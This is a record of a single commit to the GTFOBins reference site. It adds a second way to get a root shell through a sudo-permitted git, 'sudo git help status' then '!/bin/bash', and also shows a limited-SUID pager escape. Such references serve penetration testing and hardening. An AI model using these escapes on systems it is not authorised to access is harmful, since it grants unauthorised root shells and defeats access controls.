

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the part 586-886 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update git.md
Escalating local privileges using git. Extra method.

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -12,6 +12,9 @@ functions:
       code: |
         sudo git -p help
         !/bin/sh
+      code: |
+        sudo git help status
+        !/bin/bash
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
